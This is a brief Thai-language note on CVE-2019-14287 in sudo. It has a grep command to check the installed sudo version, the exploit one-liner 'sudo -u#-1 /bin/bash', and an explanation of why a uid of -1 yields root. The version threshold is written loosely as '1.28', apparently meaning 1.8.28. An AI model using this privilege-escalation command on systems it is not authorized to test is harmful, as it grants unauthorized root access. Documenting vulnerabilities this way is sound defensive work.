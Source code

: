 Check and Test
-------------------------------

## Check sudo version ( CVE-2019-14287 )
```
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```
ถ้าไม่ขึ้นอะไรแสดงว่าไม่อยู่ในช่วงช่วงเวอชั่นที่มีช่องโหว่

แต่ if version < 1.28
มีความเสี่ยงว่าจะมีช่องโหว่ทดสอบโดย
```
sudo -u#-1 /bin/bash
```

```
ช่องโหว่นี้เกิดจากการ handle ค่า uid ที่ส่งเข้ามาไม่ดี
เมื่อมีการส่งค่า -1 เข้ามา โดย Program เขียนด้วย C ชนิดตัวแปรที่รับเป็นชนิด uid_t (unsigned int) 
หมายความว่า ถ้าส่งค่าที่น้อยกว่า 0 เข้ามามันจะตีความเป็นค่าที่ไม่มีอยู่จริงของ user id
-1 ใน unsigned int จะได้ค่าเป็น 4294967295
4294967295 นี้ไม่มีแน่ๆในเลข user id
ดังนั้นเมื่อไม่เจอจึง fallback ให้สิทธิ์ root (uid 0 ) แทน
เราจึงทำการยกระดับสิทธิ์ได้โดยไม่ต้องใช้อย่างอื่นเลย
```
